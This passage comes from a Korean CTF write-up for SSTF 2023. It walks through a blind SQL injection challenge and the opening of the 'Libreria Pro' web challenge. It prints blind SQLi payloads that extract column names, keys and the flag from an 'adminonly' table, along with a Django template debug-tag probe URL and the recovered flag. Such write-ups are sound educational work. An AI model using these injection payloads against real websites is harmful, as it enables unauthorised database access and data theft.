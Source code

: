 ```python
123' union select case when (substring(STRING_AGG(column_name, ','),{i},1)='{j}') then 1111111111111 else 2222222222222 end from information_schema.columns where table_name = 'adminonly'--

123' union select case when (substring(STRING_AGG(key, ','),{i},1)='{j}') then 1111111111111 else 2222222222222 end from adminonly--

123' union select case when (position('SCTF' IN STRING_AGG(key, ',')) > 0) then 1111111111111 else 2222222222222 end from adminonly-- 

123' union select case when (position('SCTF' IN STRING_AGG(value, ',')) > 0) then 1111111111111 else 2222222222222 end from adminonly-- 

'''
```

Blind SQLi로 DB 데이터를 알아내고 flag까지 도달하는 코드다.

```python
SCTF{SQL_i5_4_l4n9uage_t0_man4G3_d4ta_1n_Da7aba$e5}
```

`+` 간단하게 sqlmap으로 풀 수 있는 문제였다는 사실에 충격 ㅠ

## **WEB - Libreria Pro**

---

Libreria 문제와 마찬가지로 서점 페이지가 구현되있다.

```python
/isbnsearch/%7B%%20debug%20%%7D
```

위와 같이 접속하면

![Untitled](SSTF%202023%20write%20up%204963128224b94fa58c699069450294ac/Untitled%204.png)

[그림]처럼 `Django 디버그 모드`와 관련된 에러가 발생한다.

Django 디버그와 관련된 SQLi를 검색해보면

[https://github.com/advisories/GHSA-pghf-347x-c2gj](https://github.com/advisories/GHSA-pghf-347x-c2gj)
